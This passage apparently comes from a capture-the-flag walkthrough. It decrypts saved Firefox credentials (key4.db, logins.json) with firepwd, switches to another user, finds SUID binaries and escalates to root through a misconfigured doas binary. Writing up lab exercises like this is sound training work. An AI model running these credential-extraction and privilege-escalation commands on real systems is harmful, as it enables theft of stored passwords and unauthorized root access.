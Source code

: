 Let's grab the script [Firepwd.py](https://github.com/lclevy/firepwd) from github, _an open source tool to decrypt Mozilla protected passwords_.

Let's clone the file from github, installing requirements, moving both files to firepwd directory and then running the script using python3,

```bash
git clone https://github.com/lclevy/firepwd.git; cd firepwd; pip install -r requirements.txt
mv key4.db logins.json /path/to/firepwd
python3 firepwd.py
```

![image](https://user-images.githubusercontent.com/67465230/186193263-687af605-ec13-4b6d-a19a-f2ae5d279650.png)

and the bottom of the screenshot, we get our username and password in plain text.

Next, we can switch to v0id user,

```bash
su v0id
```

![image](https://user-images.githubusercontent.com/67465230/186193511-e862e545-56db-4058-972b-45d524047361.png)

Now, checking if there is any binary which we can run using `sudo` to escalate our privileges,

```bash
sudo -l
```

![image](https://user-images.githubusercontent.com/67465230/186193573-18f33fac-69fb-48c2-b1ac-bdc9c8b4da6f.png)

we can't run any because we don't have permission to.

Let's find those binaries which have SUID bit set on them,

```bash
find / -perm -04000 -type f 2>/dev/null
```

![image](https://user-images.githubusercontent.com/67465230/186193862-2f3e869d-4c0c-4ce1-a6fd-ada460ace485.png)

there is /usr/local/bin/doas binary which has SUID bit set on it. So we can use this binary to escalate our privileges.

Running this binary,

```bash
/usr/local/bin/doas
```

![image](https://user-images.githubusercontent.com/67465230/186193917-8b742807-e18f-4a00-b4a5-10bd6e0891bf.png)

we now know how to run this binary with some arguments.

Using command below, we can escalate our privileges to root user,

```bash
/usr/local/bin/doas -u root /bin/bash
```

![image](https://user-images.githubusercontent.com/67465230/186193975-2d9efb6e-61c1-4408-8835-f86849b7321d.png)
